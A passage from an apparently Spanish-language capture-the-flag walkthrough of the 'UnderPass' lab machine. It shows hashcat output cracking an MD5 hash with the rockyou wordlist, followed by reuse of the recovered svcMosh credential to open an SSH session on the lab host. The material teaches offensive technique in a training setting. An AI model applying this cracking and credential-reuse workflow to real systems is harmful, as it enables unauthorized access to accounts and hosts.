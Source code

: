 ```console
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 632 MB

Dictionary cache hit:
* Filename..: .\rockyou.txt
* Passwords.: 14344387
* Bytes.....: 139921525
* Keyspace..: 14344387

412dd4759978acfcc81deab01b382403:underwaterfriends

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 412dd4759978acfcc81deab01b382403
Time.Started.....: Mon Dec 30 18:15:00 2024 (0 secs)
Time.Estimated...: Mon Dec 30 18:15:00 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 21877.1 kH/s (8.51ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4718592/14344387 (32.90%)
Rejected.........: 0/4718592 (0.00%)
Restore.Point....: 2359296/14344387 (16.45%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 15841530 -> peque├▒atraviesa
Hardware.Mon.#1..: Temp: 54c Fan: 36% Util: 39% Core:1511MHz Mem:2000MHz Bus:16

Started: Mon Dec 30 18:14:53 2024
Stopped: Mon Dec 30 18:15:01 2024
```

### Abusing Credentials Reuse
Y vemos que tenemos un nuevo combo.
```
svcMosh:underwaterfriends
```

Podemos probar a conectarnos por SSH con este combo y vemos que conseguimos establecer sesión.
```console
ssh svcMosh@underpass.htb
The authenticity of host 'underpass.htb (10.129.100.98)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'underpass.htb' (ED25519) to the list of known hosts.
svcMosh@underpass.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Dec 30 05:16:15 PM UTC 2024
```
